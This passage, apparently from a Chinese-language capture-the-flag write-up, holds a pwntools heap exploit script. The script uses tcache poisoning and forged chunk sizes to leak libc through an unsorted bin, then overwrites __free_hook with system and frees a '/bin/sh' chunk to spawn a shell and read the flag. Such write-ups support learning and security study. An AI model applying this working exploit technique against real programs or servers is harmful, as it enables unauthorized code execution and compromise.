    ```python
   success("tcache==>"+hex(tcache))
   
   # 修改tcachebin的next指针，指向tcache的基地址+0x10
   payload = p64(tcache+0x10)
   edit(payload)
   
   add(0x78) 
   add(0x78)   #申请得到tcache
   
   payload = b"\x00"*0x5+b'\x01'+b'\x01'+b"\x08"+p64(0)*(7+4)+p64(tcache+0x250)*2+p64(tcache+0x260)
   edit(payload)
   
   add(0x68)   #0x70 修改0x80chunk的size字段
   payload = p64(0)+p64(0x91)+p64(0)
   edit(payload)
   
   add(0x38)   #将伪造的0x90chunk与TOP隔开
   edit(b'\x00'*0x8+p64(0x41))
   add(0x78)   #表面上申请0x80chunk，实际上申请的时0x90chunk
   
   free()
   show()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   
   add(0x38)
   free()
   payload = p64(free_hook_addr-8)
   edit(payload)
   
   add(0x38)
   add(0x38)
   payload = b'/bin/sh\x00'+p64(system_addr)
   edit(payload)
   
   free()
   p.sendline(b"cat flag")
   p.interactive()
   ```

   

   成功拿到本地flag：
